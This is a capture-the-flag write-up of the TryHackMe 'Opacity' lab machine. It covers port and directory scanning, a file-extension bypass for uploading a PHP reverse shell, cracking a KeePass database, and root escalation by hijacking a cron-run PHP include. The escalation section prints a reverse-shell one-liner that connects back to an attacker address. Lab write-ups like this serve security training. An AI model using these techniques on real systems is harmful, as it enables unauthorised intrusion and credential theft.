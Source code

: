 ```yaml
---
title: "TryHackMe: Opacity"
collection: publications
permalink: /publication/Opacity
excerpt: 'This is a free machine from TryHackMe'
date: 2023-04-10
venue: '04-10'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/opacity-header.png)

**LINK :** [Opacity](https://tryhackme.com/room/opacity)

---

## Enumeration : 

* Let's scan the target :

```bash
# nmap -sC -sV -T4 10.10.131.31
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-10 12:22 EDT
Nmap scan report for 10.10.131.31
Host is up (0.095s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:ee:29:10:d9:8e:8c:53:e6:4d:e3:67:0c:6e:be:e3 (RSA)
|   256 95:42:cd:fc:71:27:99:39:2d:00:49:ad:1b:e4:cf:0e (ECDSA)
|_  256 ed:fe:9c:94:ca:9c:08:6f:f2:5c:a6:cf:4d:3c:8e:5b (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Login
|_Requested resource was login.php
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
* The scan reveals 4 open ports, i think that the SMB port was just a rabbit hole.

* Browsing to the web page i found this login page, i tried some sql injection payloads but it didn't work.

![opacity1](/images/opacity1.png)

* Let's see if we can find any hidden directories :

```bash
# gobuster dir -u http://10.10.131.31 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.131.31
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/04/10 12:23:51 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 310] [--> http://10.10.131.31/css/]
/cloud                (Status: 301) [Size: 312] [--> http://10.10.131.31/cloud/]
```

* I found this */cloud* directory, so after i saw a file upload function the first thing comes to my mind is reverse shell

![opacity2](/images/opacity2.png)

* Let's start a web server on our local machine:

![opacity3](/images/opacity3.png)

>shell.php : https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

* So as you can see we can upload a file from an external URL, but unfortunately we can only upload images.

![opacity4](/images/opacity4.png)

* After i added .png to the URL, i was able to upload the file but i couldn't trigger the reverse shell.

![opacity5](/images/opacity5.png)

*  I spent a lot of time trying to bypass the file extension checks.

>https://book.hacktricks.xyz/pentesting-web/file-upload


* In order to bypass the restriction, you have to add #.png at the end of the URL.

![opacity6](/images/opacity6.png)

* Open the image and bingo you will receive the connection

![opacity7](/images/opacity7.png)

![opacity8](/images/opacity8.png)


## Horizontal Privilege Escalation :

* I found this interesting file in /opt

![opacity9](/images/opacity9.png)

> A KDBX file is a password database created by KeePass Password Safe.

* Let's start a web server and download the file to our local machine 

![opacity10](/images/opacity10.png)

![opacity11](/images/opacity11.png)

* We need a password to open this file, so let's crack the file using *keepass2john* and then *john*

![opacity12](/images/opacity12.png)

* Bingo we found the password.

![opacity13](/images/opacity13.png)

* Now let's open the file using *keepassxc*

```bash
# keepassxc dataset.kdbx
```
![opacity14](/images/opacity14.png)

* Enter the password.

![opacity16](/images/opacity16.png)

![opacity15](/images/opacity15.png)

* Let's login via ssh using this credentials and get the user flag.

![opacity17](/images/opacity17.png)

## Vertical Privilege Escalation :

* Let's see what processes are running on this machine using *pspy*

>https://github.com/DominicBreuker/pspy

* Open a web server on your local machine and then download the executable to the target machine

![opacity18](/images/opacity18.png)

![opacity19](/images/opacity19.png)

* After you run it, you will see a file called *script.php* is running

![opacity20](/images/opacity20.png)

* Let's read this file

![opacity21](/images/opacity21.png)

* The script requires a file called backup.inc.php this means it will call this file , then it backups all the files in /home/sysadmin/scripts to /var/backups/backup.zip


* As you can see the backup.inc.php is owned by root, so we can't modify it

![opacity22](/images/opacity22.png)

* You should notice that the sysadmin user have all the permissions to the *lib* folder

![opacity23](/images/opacity23.png)

* So the idea here is we're going to copy *backup.inc.php* to our home directory, now we can modify the file.

![opacity24](/images/opacity24.png)

* Let's add a php reverse shell


```bash
$sock=fsockopen("10.X.X.X",4444);exec("sh <&3 >&3 2>&3");
```

![opacity25](/images/opacity25.png)

* The next step is to remove the backup.inc.php from *script/lib/*, then move the modified file to *scripts/lib/*

![opacity26](/images/opacity26.png)

* Start a netcat listener and wait for the reverse shell.

![opacity27](/images/opacity27.png)

